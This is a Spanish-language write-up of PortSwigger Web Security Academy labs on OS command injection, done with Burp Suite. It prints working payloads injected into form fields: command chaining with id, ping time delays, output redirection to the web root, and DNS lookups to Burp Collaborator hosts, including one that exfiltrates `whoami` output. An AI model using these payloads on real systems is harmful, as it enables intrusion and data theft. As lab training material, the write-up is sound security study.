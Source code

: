 # Os Command Injection

- [Os Command Injection](#os-command-injection)
  - [Executing arbitrary commands](#executing-arbitrary-commands)
    - [Lab 1: OS command injection, simple case](#lab-1-os-command-injection-simple-case)
  - [Blind OS command injection vulnerabilities](#blind-os-command-injection-vulnerabilities)
    - [Detecting blind OS command injection using time delays](#detecting-blind-os-command-injection-using-time-delays)
      - [Lab 2: Blind OS command injection with time delays](#lab-2-blind-os-command-injection-with-time-delays)
    - [Exploiting blind OS command injection by redirecting output](#exploiting-blind-os-command-injection-by-redirecting-output)
      - [Lab 4: Blind OS command injection with output redirection](#lab-4-blind-os-command-injection-with-output-redirection)
    - [Exploiting blind OS command injection using out-of-band (OAST) techniques](#exploiting-blind-os-command-injection-using-out-of-band-oast-techniques)
      - [Lab 5: Blind OS command injection with out-of-band interaction](#lab-5-blind-os-command-injection-with-out-of-band-interaction)
      - [Lab 6: Blind OS command injection with out-of-band data exfiltration](#lab-6-blind-os-command-injection-with-out-of-band-data-exfiltration)

## Executing arbitrary commands

### Lab 1: OS command injection, simple case

Entramos a algún producto y usamos el boton check stock pero esto lo haremos usando burp suite interceptando la consulta.
![command1.1.png](command1.1.png)

Lo mandamos al repeater donde podremos modificarlo y enviar el paquete. Usaremos la siguiente consulta:

```
productId=2&storeId=1 ; id
```

![command1.2.png](command1.2.png)

## Blind OS command injection vulnerabilities

### Detecting blind OS command injection using time delays

#### Lab 2: Blind OS command injection with time delays

Interceptamos el envío del feedback con Burp suite.

![command3.1.png](command3.1.png)

Probamos en los parametros en cual funciona agregarle `||ping+-c+10+127.0.0.1||`, el que funciona es el parametro email.

```
...
csrf=AH3gDeLKQ9z9wuUelG8ExXglulKqw6Bt&name=Gatoto&email=gato@gmail.com||ping+-c+10+127.0.0.1||&subject=adfsad&message=asdfasd
```

El resultado debería demorar por lo menos 10 segundos.

### Exploiting blind OS command injection by redirecting output

#### Lab 4: Blind OS command injection with output redirection
Interceptamos el paquete al enviar el feedback como el laboratorio anterior pero esta vez enviamos el resultado a la carpeta `/var/www/images`. Guardaremos la respuesta en un txt.

```
...
csrf=v8X6Ld2i21GljQMqjB9CKjDzrCqpSrhO&name=asdfasd&email=gato%40gmail.com||whoami>/var/www/images/miau.txt||&subject=asdas&message=asdasd
```

Ahora podremos ver el resultado en `https://acad1f931ec1c55bc03570a8007f0058.web-security-academy.net/image?filename=miau.txt`.

### Exploiting blind OS command injection using out-of-band (OAST) techniques

#### Lab 5: Blind OS command injection with out-of-band interaction

Interceptamos la consulta igual que los anteriores laboratorios.

Usaremos el **Burp Collaborator Client** para recepcionar las consultas externas.

![command5.1.png](command5.1.png)

Presionamos la opción de `copy to clipboard`, en nuestro caso nos copio la dirección `5x3n5ni2nt8kgaozaa78zab4mvsmgb.burpcollaborator.net`.

```
...
csrf=S1bia6kmPluBfw6osSYf7l0Q4ieyFGDt&name=asdf&email=gato%40gmail.com||nslookup+5x3n5ni2nt8kgaozaa78zab4mvsmgb.burpcollaborator.net||&subject=asdfsdf&message=asdfsad
```

Obtenemos los resultados en el burp collaborator.

![command5.2.png](command5.2.png)


#### Lab 6: Blind OS command injection with out-of-band data exfiltration

```
...
csrf=j0THGLFofHZKTMBkm5YE3ZTfkaTTSiQT&name=asdfas&email=gato%40gmail.com||nslookup+`whoami`.zsv3zamskchm3cmvtmioea5h187yvn.burpcollaborator.net||&subject=asdfasdf&message=asdfasd
```

![command6.1.png](command6.1.png)

